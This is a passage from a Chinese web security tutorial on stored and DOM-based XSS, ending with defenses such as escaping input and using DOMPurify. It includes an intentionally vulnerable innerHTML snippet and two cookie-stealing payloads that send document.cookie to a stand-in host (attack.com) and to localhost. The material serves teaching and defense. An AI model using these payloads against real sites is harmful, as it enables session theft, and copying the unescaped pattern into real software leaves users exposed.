 ### 防御方案

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致，可以根据需要选择过滤时机，例如：

- 客户端提交前进行校验过滤，如果包含恶意脚本则不提交，或者提交转义后的字符串
- 服务端接收后先校验过滤，如果包含恶意脚本则不存储到数据库，或者存储转义后的字符串
- 客户端渲染时候进行过滤，即使数据库中存储了未经转义的恶意脚本，输出转义后的字符串

## DOM 型 XSS 攻防实战

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

### 攻击案例

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```html
<script>
  fetch(`https://attack.com?cookie=${document.cookie}`);
</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的安全规范：

不执行由 innerHTML 插入的 script 标签。

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img
  src="x"
  onerror="fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)"
/>
```

恶意脚本依然在 onerror 回调中被触发了！

### 防御方案

这里推荐使用 DOMPurify 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

## 总结

反射型 XSS 攻击的手段就是诱导用户点击，这种攻击是一次性的，用户点击就中招，不点就没事，危害性不如存储型的大，但是小白用户很容易被盗号。

存储型 XSS 攻击范围广，受害面积大，且不容易及时发现和排查，一定要多加小心，对于用户输入的任何内容都不要完全信任，对于动态渲染的文本一定要进行转义。

DOM 型 XSS 攻击随着单页面应用普及和流行愈发常见，因为在单页面应用中 JS 经常操作 DOM，而 DOM 型 XSS 攻击就是利用了浏览器解析机制，因此很容易触发 DOM 型 XSS 攻击。不过好在大部分前端框架，例如 Vue、Angular 都内置 DOM 型 XSS 攻击的防御机制。
